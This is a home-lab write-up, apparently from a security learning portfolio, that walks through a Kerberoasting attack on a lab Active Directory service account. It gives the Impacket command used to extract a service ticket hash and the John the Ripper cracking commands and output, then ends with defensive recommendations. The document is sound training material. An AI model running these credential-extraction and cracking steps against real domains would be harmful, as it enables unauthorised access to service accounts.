


# Kerberoasting

## Objective
Demonstrate the Kerberoasting attack technique against the `svc_sql` service account created in
[project 06](../06-active-directory) — extracting a crackable Kerberos service ticket hash using
nothing but a low-privilege domain user's credentials, then attempting to recover the plaintext
password offline.

## Why This Matters
Kerberoasting is one of the most common real-world Active Directory attacks because it requires
no elevated privileges to execute — any authenticated domain user can request a service ticket
for any account with a registered SPN (Service Principal Name). That ticket is encrypted with
the *service account's* password hash. If the service account's password is weak, it can be
cracked completely offline, with zero further contact with the domain controller.

## Setup
- **Target**: `svc_sql` service account (`MSSQLSvc/SRV01.lab.local:1433`), created in project 06
- **Attacking as**: `sndlovu`, a standard low-privilege domain user — deliberately *not* an admin
  account, to demonstrate that this attack doesn't require elevated access
- **Tools**: Impacket (`GetUserSPNs.py`), John the Ripper

## Steps

### 1. Enumerate Kerberoastable accounts and request the ticket
```bash
impacket-GetUserSPNs lab.local/sndlovu -dc-ip 192.168.100.10 -request -outputfile svc_sql.hash
```
Authenticated as `sndlovu` (no elevated rights). Output confirmed the SPN and account:

```
ServicePrincipalName            Name      MemberOf  PasswordLastSet             LastLogon  Delegation
MSSQLSvc/SRV01.lab.local:1433   svc_sql             2026-08-09 14:01:17.243797  <never>
```

This produced a full `$krb5tgs$23$...` hash written to `svc_sql.hash` — a real, working artifact
extracted directly from the lab domain controller.

### 2. Attempt to crack the hash offline
Hashcat's GPU backend isn't available in a VirtualBox VM (no OpenCL/CUDA passthrough), so I used
John the Ripper instead, which runs entirely on CPU:

```bash
sudo apt install -y john
john --wordlist=/usr/share/wordlists/rockyou.txt --format=krb5tgs svc_sql.hash
```

**Result:**
```
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 2 OpenMP threads
0g 0:00:00:45 DONE (2026-08-10 09:52) 0g/s 314624p/s 314624c/s 314624C/s
Session completed.
```
Confirmed with:
```bash
john --show --format=krb5tgs svc_sql.hash
```
```
0 password hashes cracked, 1 left
```

## Findings

- **The attack technique itself succeeded completely**: a low-privilege user with no special
  access was able to extract a crackable credential hash for a service account, purely through
  normal, legitimate-looking Kerberos authentication traffic — nothing about the ticket request
  itself would look abnormal in most logging setups.
- **The password resisted a full rockyou.txt attack** (314,624 candidates tested, 0 cracked).
  This demonstrates that a password like `P@ssw0rd2026!` — meeting typical complexity rules
  (upper/lower/number/symbol) — is not trivially breakable with the most common wordlist attackers
  reach for first.
- **This does not mean the account is safe** — rockyou.txt is a breached-password list, not an
  exhaustive attack. A determined attacker would follow up with rule-based mutations, larger
  wordlists, mask attacks based on the organization's naming conventions, or a GPU cracking rig
  running for hours to days rather than 45 seconds on CPU.

## Recommendations (Defensive Takeaways)
- Service accounts should use long, randomly generated passwords (25+ characters) that are
  never subject to human memorability constraints — since no one needs to type them, there's no
  reason to keep them short or pattern-based.
- Consider **Group Managed Service Accounts (gMSA)** in production environments, which use
  automatically rotated, non-human-readable passwords — eliminating the Kerberoasting risk
  entirely.
- Monitor for unusual volumes of TGS-REQ (service ticket request) traffic from a single account
  in a short window, which can indicate a Kerberoasting sweep across multiple SPNs.

## Skills Gained
- Practical understanding of the Kerberoasting attack chain end-to-end
- Using Impacket's `GetUserSPNs.py` for SPN enumeration and ticket extraction
- Offline hash cracking with John the Ripper (including working around GPU/OpenCL limitations
  in a virtualized lab environment)
- Interpreting a "failed" crack attempt as a legitimate, useful security finding rather than a
  dead end

## Screenshots


